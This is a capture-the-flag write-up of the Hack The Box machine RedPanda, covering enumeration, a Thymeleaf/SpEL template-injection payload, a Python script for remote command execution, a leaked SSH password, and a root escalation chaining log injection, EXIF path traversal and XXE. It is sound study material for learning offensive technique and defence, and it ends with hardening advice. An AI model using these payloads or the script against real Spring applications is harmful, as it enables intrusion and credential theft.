# HTB - RedPanda

**IP Address:** `10.10.11.170`  
**OS:** Linux (Ubuntu 20.04 Focal)  
**Difficulty:** Easy  
**Tags:** #Java, #SpringBoot, #Thymeleaf, #SSTI, #SSH, #XXE, #PathTraversal, #EXIF, #Cron, #LogInjection

---
## Synopsis

RedPanda is an easy Linux machine running a **Java/Spring Boot** web application on **port 8080**. The search feature is vulnerable to **Server-Side Template Injection (SSTI)** via **Spring Expression Language (SpEL)** in a **Thymeleaf** context, allowing **remote command execution** as the web service user. **SSH credentials** are leaked in application source under `/opt/panda_search/`. **Privilege escalation** abuses a **root** **cron** job that parses `redpanda.log`, reads **JPEG EXIF** metadata, and updates **XML** files under `/credits/`. By controlling the **User-Agent** (logged as `user_agent`), **path traversal** in the **Artist** EXIF field, and an **XXE** payload in a crafted `_creds.xml` file, we redirect processing to **`/tmp`** and read **root’s SSH private key**.

---
## Skills Required

- Basic **nmap** and HTTP enumeration  
- Understanding of **SSTI** and willingness to adapt **Java/SpEL** payloads  
- **SSH**, **curl**, and simple **bash** scripting  
- Basic **XML/XXE** concepts and **EXIF** editing (**exiftool**)

## Skills Learned

- Exploiting **Thymeleaf/SpEL** SSTI with `*{...}` and **Apache Commons IO** for command output  
- Building **quote-free** command strings with `T(java.lang.Character).toString(...).concat(...)`  
- Finding credentials in **Java** sources on disk after RCE  
- **Log injection** via **`User-Agent`** combined with **cron** log parsing  
- Chaining **path traversal** (EXIF **Artist**) + **XXE** to read files as **root**

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.10.11.170
```



The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:


Scan all TCP ports to identify running services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.170 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:


Run a deeper scan on SSH and the web port with version detection and default scripts:

```bash
nmap -p22,8080 -sC -sV 10.10.11.170 -oN targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  



**Findings:**

| Port | Service | Version / Notes |
|------|---------|-----------------|
| 22 | SSH | OpenSSH |
| 8080 | HTTP | Java / Spring stack (confirm with `whatweb` and manual browsing) |

The OS presents as **Ubuntu Focal** (e.g. via **Launchpad** or `/etc/os-release` once access is available):



Fingerprint the web application:

```bash
whatweb http://10.10.11.170:8080
```



---
### 1.4 Web Application

The site exposes a **search** box. Submitting input reflects **“You searched for: …”**, indicating user-controlled content is processed server-side (candidate for **SSTI** or **XSS**).

```bash
curl -i "http://10.10.11.170:8080/"
```



Searching for **`test`** shows the reflection clearly:


Searching for a **space** yields no image matches:



Searching for **`a`** lists images whose metadata contains the letter:



The **author** link shows user profiles (**woodenk**, **damian**) and uploaded **`.jpg`** filenames. The **export** returns **XML** with view statistics (relevant later for **XXE**):





---
## 2. Service Enumeration

### 2.1 Web stack (port 8080)

Review the HTTP surface before testing template injection; the application stack is fingerprinted in **§1.3** and probed here:

```bash
curl -i http://10.10.11.170:8080/
```

---
## 3. Foothold

### 3.1 Confirming SSTI (SpEL / Thymeleaf)

Using **PayloadsAllTheThings**-style probes, several classic **SSTI** forms are tried. Plain braces do not evaluate to **`49`**:

```text
{7*7}
```


A **`${...}`** form is blocked or mangled (**`$`** is problematic in this template context):

```text
${7*7}
```



A **`#{...}`** form also fails to show **`49`** as expected here:

```text
#{7*7}
```


With a leading **`*`** (**Thymeleaf** selection expression), the product evaluates cleanly:

```text
*{7*7}
```


This confirms **SSTI** in a **SpEL**-friendly context.

---
### 3.2 Remote Command Execution

A naive **`Runtime.exec`**-style payload (with quoted paths) does not return **`/etc/passwd`** in this setup:

```text
*{T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
```


A reliable approach uses **`org.apache.commons.io.IOUtils`** to read **`stdout`** from a **character-by-character** built command (no quotes in the payload):

```text
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```



Automate arbitrary commands by generating the **`.concat(T(java.lang.Character).toString(ORD))...`** chain from the desired string (example script takes the command as an argument, **POST**s to `/search` as `name`, and strips HTML):

```python
#!/usr/bin/python3

import requests, sys, signal, os

def def_handler(sig, frame):
    print("\n[!] Leaving...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 2:
    print("\n[!] The program has been executed incorrectly\n")
    print('\t[+] Usage: python3 %s "whoami"\n' % sys.argv[0])
    sys.exit(1)

def makePayload():
    command = sys.argv[1]

    if len(command) == 0:
        return None

    java_str = "T(java.lang.Character).toString(%d)" % ord(command[0])
    for ch in command[1:]:
        java_str += ".concat(T(java.lang.Character).toString(%d))" % ord(ch)

    payload = (
        "*{T(org.apache.commons.io.IOUtils).toString("
        "T(java.lang.Runtime).getRuntime().exec(%s).getInputStream())}"
    ) % java_str

    return payload

def makeRequest(payload):
    search_url = "http://10.10.11.170:8080/search"
    post_data = { 'name': payload }

    r = requests.post(search_url, data=post_data, timeout=10)

    with open("output.txt", "w") as f:
        f.write(r.text)

    os.system(
        r"""cat output.txt | awk '/searched/,/<\/h2>/' \
| sed 's/.*<h2 class="searched">You searched for: //' \
| sed 's/<\/h2>.*//'"""
    )

    os.remove("output.txt")

if __name__ == '__main__':
    payload = makePayload()
    if payload is None:
        print("[!] Empty payload")
        sys.exit(1)
    makeRequest(payload)
```

```bash
python3 ssti_cmd.py "cat /home/woodenk/user.txt"
```



**Note:** A **reverse shell** via **netcat** may fail depending on egress and payload constraints; a **Python** helper is enough to read files and explore the filesystem.


---
### 3.3 Discovering SSH Credentials

Process listing shows a **cron**-related path:

```bash
python3 ssti_cmd.py "ps -faux"
```



Search application files for **`woodenk`**:

```bash
python3 ssti_cmd.py "grep -r woodenk /opt/panda_search/ 2>/dev/null"
```



Filter out **binary** and **`.jpg`** noise:

```bash
python3 ssti_cmd.py "grep -r woodenk /opt/panda_search/ 2>/dev/null" | grep -vE "jpg|Binary"
```



**MainController.java** exposes **SSH** credentials for user **`woodenk`** (password **`RedPandaRule`**). Validate over **SSH**:

```bash
ssh woodenk@10.10.11.170
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Observing Root Cron Activity

A simple loop can highlight **new** processes (similar in spirit to **pspy**):

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
        new_process=$(ps -eo user,command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "command|diff|kworker"
        old_process=$new_process
done
```



**`/opt/panda_search/redpanda.log`** is written by the web app. Locating references leads to **`App.java`** (package **`com.logparser`**):

```bash
grep -r "redpanda.log" /opt/panda_search/ 2>/dev/null
```



The cron-invoked **Java** program:

- Parses each log line split by **`||`** into **`status_code`**, **`ip`**, **`user_agent`**, **`uri`**.  
- Treats the line as an “image” request if the string **contains** **`.jpg`** (**`isImage`**).  
- Reads the **JPEG** at **`/opt/panda_search/src/main/resources/static` + `uri`**, extracts **EXIF** **`Artist`**.  
- Updates **`/credits/<Artist>_creds.xml`** via **JDOM2** (`addViewTo`).





**Log line shape** (example):

```text
200||10.10.14.10||Mozilla/5.0 ...||/search
```

---
### 4.2 Injecting the User-Agent Field

Because **`user_agent`** is taken from the **HTTP User-Agent** header, we can inject **`||`** segments so **`parseLog`** still yields **four** fields, while controlling **`uri`** (and keeping **`.jpg`** in the line so **`isImage`** returns true):

```bash
curl -s -X GET -A "test" http://10.10.11.170:8080/
```



The log reflects the injected structure:



---
### 4.3 Path Traversal via EXIF Artist

Set **`Artist`** to a **path traversal** pointing under **`/tmp`** (example **`test.jpg`**):

```bash
exiftool -Artist=../../../../../../../../tmp/test test.jpg
```


Host **`test.jpg`** for download onto the box, and create **`/tmp/test_creds.xml`** (world-writable permissions for reliability):

```bash
chmod 777 /tmp/test_creds.xml
```



Craft **`test_creds.xml`** to mirror the **export** XML structure but include an **XXE** that exfiltrates **`/root/.ssh/id_rsa`** into an element (e.g. **`xxe`**):



Trigger a log line whose **`uri`** references **`/tmp/test.jpg`** using **`User-Agent`** injection:

```bash
curl -s -X GET -A "test||/../../../../../../../../tmp/test.jpg" http://10.10.11.170:8080/
```



The **cron** job processes **`redpanda.log`** periodically (roughly **once per minute** in testing). After it runs, **`/tmp/test_creds.xml`** updates and the **XXE** output appears in the file—revealing **root’s** private key.

Save the key and connect:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@10.10.11.170
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **SSTI (Thymeleaf / SpEL)** on **`/search`** → **RCE** as the web runtime user via **`IOUtils`** + **`Runtime.exec`**.  
2. **Credential discovery** in **`/opt/panda_search/`** → **SSH** as **`woodenk`**.  
3. **Cron** **log parser** + **`User-Agent`** **injection** + **EXIF** **`Artist`** **path traversal** + **XXE** in **`/tmp/test_creds.xml`** → read **root** **SSH key** → **root shell**.

---
## Defensive Recommendations

- Do not pass raw user input into **template** engines; use a strict **allowlist** and **context-appropriate** escaping.  
- Keep **Spring Boot** / **Thymeleaf** patched and disable dangerous **SpEL** exposure patterns.  
- Avoid using **string split** on untrusted logs without validation; treat **log fields** as attacker-controlled.  
- Use **`==` / `.equals`** correctly in **Java**, validate **file paths** (no **`..`**), and **disable external entities** in **XML** parsers (**XXE** hardening).  
- Store **secrets** in **vaults** or environment-specific config, not in **source trees** readable by the service account.
